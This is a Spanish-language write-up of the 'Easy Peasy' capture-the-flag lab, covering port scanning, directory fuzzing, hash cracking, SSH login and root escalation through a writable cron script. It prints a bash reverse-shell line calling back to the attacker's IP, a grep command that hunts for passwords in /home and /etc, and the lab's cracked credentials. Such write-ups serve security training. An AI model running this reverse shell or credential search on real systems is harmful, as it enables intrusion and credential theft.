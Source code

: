 # Easy Peasy

Esta `room` también nos dice lo que tenemos que hacer en cada momento.

# Análisis

Empecemos con un escaneo de puertos sencillo y sigamos con uno *complejo* para ver más información de los servicios instalados:
![alt text](img/image.png)
> Hacer siempre un escaneo de todos los puertos, nunca se sabe.

<br>

Como este escaneo no nos resuelve todas las dudas, vamos a hacer uno para esos puertos pero con un poco más de información:
![alt text](img/image-1.png)

<br>

Vamos a comentarlo un poco por encima:

- Puerto 80 (nginx 1.16.1)
- Puerto 6498 (OpenSSH 7.6p1)
- Puerto 65524 (Apache httpd 2.4.43)
- SO (Linux 4.15)

Ahora que sabemos los servicios http que existen en la máquina, vamos a analizarlos uno a uno.
![alt text](img/image-2.png)
![alt text](img/image-3.png)

Parece que vamos a tener que fuzzear los directorios:

- nginx

![alt text](img/image-4.png)

1. hidden
    ![alt text](img/image-5.png)
    ![alt text](img/image-7.png)

    <br>

    No parece que la imágen tenga algo escondido.

    <br>

    ![alt text](img/image-8.png)
    ![alt text](img/image-9.png)
    ![alt text](img/image-10.png)
    > Primera flag

    <br>

2. robots.txt
    ![alt text](img/image-6.png)
    > **F**

    <br>

- apache

![alt text](img/image-11.png)

<br>

1. index.html
    ![alt text](img/image-12.png)
    ![alt text](img/image-13.png)
    
    <br>

    ![alt text](img/image-17.png)
    Tercera flag

    <br>

2. robots.txt
    ![alt text](img/image-15.png)
    ![alt text](img/image-16.png)
    Segunda flag

    <br>

3. /n0th1ng3ls3m4tt3r/
    ![alt text](img/image-14.png)
    Se trata del hash de una contraseña y una imágen(raro)

    <br>

    ![alt text](img/image-18.png)
    > Es un hash en sha256

    <br>

    ![alt text](img/image-19.png)
    > La crackemos con john the reaper

    <br>

    ![alt text](img/image-20.png)
    ![alt text](img/image-21.png)
    ![alt text](img/image-22.png)
    > user: boring
    > pass: iconvertedmypasswordtobinary

    <br>

Acabamos el *análisis* y empezamos el ataque, tenemos el usuario y la contraseña del ssh:
![alt text](img/image-23.png)

Entramos en la máquina como el usuario boring(sin privilegios)
<br>

![alt text](img/image-24.png)
> Nos dice que está rotado(ROT)

<br>

![alt text](img/image-25.png)

<br>

Ahora toca escalar privilegios.

![alt text](img/image-26.png)
> No podemos ejecutar sudo

<br>

![alt text](img/image-27.png)
> Un programa que nos permite ejecutar comandos por otros usuarios...

<br>

![alt text](img/image-28.png)
> Pide la contraseña del root, no funciona

<br>

```bash
grep -r "password" /home /etc 2>/dev/null
```
> Podría... pero no

<br>

![alt text](img/image-29.png)

En crontab, programa que ejecuta scripts, programas, etc. cada x tiempo; vemos que hay un archivo que se ejecuta cada minuto por el usuario root.
<br>

![alt text](img/image-30.png)

Y un usuario normal puede editar este archivo.
<br>

![alt text](img/image-31.png)
> bash -i >& /dev/tcp/{ip_local}/4242 0>&1


<br>

![alt text](img/image-32.png)

<br>

![alt text](img/image-33.png)

Ponemos un puerto en escucha en nuestr máquina y esperamos un minuto(aprox)
<br>

![alt text](img/image-34.png)

Y ya estaría, hemos accedido a la máquina con root.

## USER? Si

## ROOT? Si
